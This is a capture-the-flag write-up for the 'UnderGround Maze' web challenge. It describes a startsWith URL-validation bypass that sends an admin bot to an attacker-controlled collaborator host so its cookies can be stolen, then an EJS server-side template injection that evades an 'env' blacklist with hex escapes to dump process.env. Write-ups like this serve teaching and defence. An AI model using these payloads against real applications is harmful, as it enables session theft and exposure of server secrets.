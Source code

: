 ```yaml
---
title: UnderGround Maze | CatReloaded CTF 2025
published: 2025-08-23
description: 'Exploiting a URL validation bypass and EJS Server-Side Template Injection (SSTI) to compromise the admin panel and retrieve the flag.'
image: 'maze.png'
tags: [Web Exploitation]
category: 'Cat-CTF 2025'
draft: false 
lang: 'en'
---
```

## This writeup is written by 00xCanelo (**Mont5ab El2hwa**)

---
![editedundergroundmaze.png](editedundergroundmaze.png)
This Challenge have alot of files so will view and discuss about the vuln parts only  
and the machineip is `206.81.17.21`  
So Lets fire it up 🚀  

After analysing all the files there was something interesting in the `report.js` line 19 **if function**:

```jsx
const validHttpPrefix = `http://${process.env.URL}/`;
const validPrefix = process.env.URL
if (url.startsWith(validHttpPrefix) || url.startsWith(validPrefix)) {
        // The Rest of the code 
    }
   
```

in this if function it accepts 

```jsx
http://machineip/ ==> accepted 
http://machineip.evil.com ==> not accepted 
machineip ==> accepted
machineip.evil.com ==> accepted
```

so we can simply step  the burp collap and in the report page add this url

```jsx
httpmachineip.burpcollab.com
```

the bot will still view our collab and we can get the admin cookies

![image.png](image%201.png)

Use the admin token and login

---

After login as admin redirect to /admin 

![image.png](image%202.png)

in [admin.](http://admin.sj)js you have this part 

```jsx
router.post("/admin/update", authenticateToken, is_admin, async (req, res) => {
  const { html } = req.body;
  ...
  const tempTemplate = html;
  
  const ejs = require('ejs');
  
  try {
    const result = ejs.render(tempTemplate, { 
      user: req.user.username,
    });
   
```

no sanitization on the `req.user.username` and this is an ejs we simply place or SSTI injection code here

but also have a problem that env is from the blacklisted. but luckly with simply hex encoding to the chars we can easily access it

```jsx
\x65 => e
user[4] => "admin" we will take 5 chars "n"
\x76 => v 

\x65+user[4]+\x76 => "env"
```

in NodeJs we have `process` which is a global object that can access env and these stuff but first we have to Stringify the input

```jsx
JSON.stringify("\x65" + user[4] + "\x76") 
```

This will output `"env"`  now we only have the last part is to make it in process

```jsx
JSON.stringify(process["\x65" + user[4] + "\x76"])
```

finally add our EJS tags

```jsx
<%= JSON.stringify(process["\x65" + user[4] + "\x76"]) %>
```

And you get the flag

![image.png](image%203.png)